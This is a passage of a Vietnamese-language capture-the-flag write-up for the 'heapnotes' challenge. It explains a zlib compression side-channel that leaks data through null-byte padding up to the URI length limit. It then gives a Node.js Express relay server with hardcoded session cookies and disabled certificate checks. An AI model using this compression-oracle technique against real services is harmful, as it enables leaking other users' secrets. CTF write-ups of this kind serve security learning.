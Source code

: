 Hiểu đơn giản là nếu đoạn data chưa từng xuất hiện trước đó thì zlib không có cách nào để compress nó được, dẫn đến việc output sẽ dài hơn bình thường. Tiếp theo ta chỉ cần tìm độ dài lớn nhất của URI mà WSGI cho phép, pad nullbyte sao cho URI lúc đúng vừa bằng con số đó là được, ta có thể leak xem ta cần pad bao nhiêu nullbyte bằng cách tương tự, pad nullbyte tăng dần cho đến khi nó lỗi là tìm ra. 

Exploit:

server.js (dùng để tạo note và trả về cho exploit)

```js
const express = require('express')

const app = express()
const port = 3000
const https = require('https');

const httpsAgent = new https.Agent({
      rejectUnauthorized: false,
});


// const URL = "https://localhost:13337/create"
const URL = "https://heapnotes.chal.imaginaryctf.org/create"

app.use((req, res, next) => {
  res.append('Access-Control-Allow-Origin', ['*']);
  res.append('Access-Control-Allow-Methods', 'GET,PUT,POST,DELETE');
  res.append('Access-Control-Allow-Headers', 'Content-Type');
  next();
});

function gen_key(num) {
  return "00".repeat(parseInt(num));
} 

app.get('/', async (req, res) => {
  console.log(req.query.content)
  // res.send(await create_note(req.query.content, req.query.number));
  const body = new FormData();

  body.append("content", req.query.content);
  body.append("key", gen_key(req.query.number))
  let data = await fetch(URL, {
    method: "POST",
    body,
    headers: {
      "Cookie": "session=.eJwlzjEOwzAIAMC_MHcAxxicz0QYsNrVaaaqf2-k7jfcB4658nzC_l5XPuB4BexA6ZJM3YRFu802McOzIovEJOMapdWOOkbkwBFjSvTqsZVoKIw0LFt3xOY39w2L6JSm3p25YBRzctXIWoxpthCnzjrQrBIz3JHrzPXfFIHvD0eWMCs.Zpufcw.g2mqz0Ah49J2J-wJwlFWQPu9EvQ"
      // "Cookie": "session=.eJwlzjEOwzAIAMC_eO5ggwGTz0RgsNo1aaaqf2-k7jfcp-zryPNZtvdx5aPsryhb8aFhiuzSggdI6OKhpr4oGCbXNV2okUhHFFR2y9uvLp2oxhpVDYU4FDIFcsRAjsasbmxJ0HqVaIGzVkyFSO2kPsUMW5qVO3Kdefw3UL4_mYUvCQ.Zpugag.PEdh2iXAbVSlzkLutxoFtxcwiFA"
    },
    agent: httpsAgent
  });

  data = await data.text();
  res.send(data);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```
